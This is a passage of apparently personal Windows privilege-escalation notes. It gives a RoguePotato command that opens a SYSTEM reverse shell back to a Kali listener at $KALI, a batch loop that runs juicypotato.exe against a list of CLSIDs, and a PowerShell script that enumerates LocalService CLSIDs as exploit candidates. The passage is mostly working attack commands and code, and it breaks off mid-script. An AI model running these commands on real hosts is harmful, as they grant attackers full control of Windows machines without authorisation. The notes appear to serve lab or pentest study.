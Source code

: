 5. Start another listener on Kali.

![[rlwrap]]

6. Now run the RoguePotato exploit to trigger a reverse shell running with SYSTEM privileges ($KALI is the Kali IP):

```command prompt - windows
C:\PrivEsc\RoguePotato.exe -r $KALI –l 9999 -e "C:\PrivEsc\reverse.exe"
```

#### test_clsid.bat

```command prompt - windows
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (CLSID.list) DO (
 echo %%i !port!
 juicypotato.exe -z -l !port! -c %%i >> result.log
 set RET=!ERRORLEVEL!
 :: echo !RET!
 if "!RET!" == "1" set /a port=port+1
)
```

#### GetCLSID.ps1
```powershell - windows
<#
This script extracts CLSIDs and AppIDs related to LocalService.DESCRIPTION
Then exports to CSV
#>

$ErrorActionPreference = "Stop"

New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT

Write-Output "Looking for CLSIDs"
$CLSID = @()
Foreach($ID in (Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}})){
    if ($ID.appid -ne $null){
        $CLSID += $ID
    }
}

Write-Output "Looking for APIDs"
$APPID = @()
Foreach($AID in (Get-ItemProperty HKCR:\appid\* | select-object localservice,@{N='AppID'; E={$_.pschildname}})){
    if ($AID.LocalService -ne $null){
        $APPID += $AID
    }
}

Write-Output "Joining CLSIDs and APIDs"
$RESULT = @()
Foreach ($app in $APPID){
    Foreach ($CLS in $CLSID){
        if($CLS.AppId -eq $app.AppID){
            $RESULT += New-Object psobject -Property @{
                AppId    = $app.AppId
                LocalService = $app.LocalService
                CLSID = $CLS.CLSID
            }
```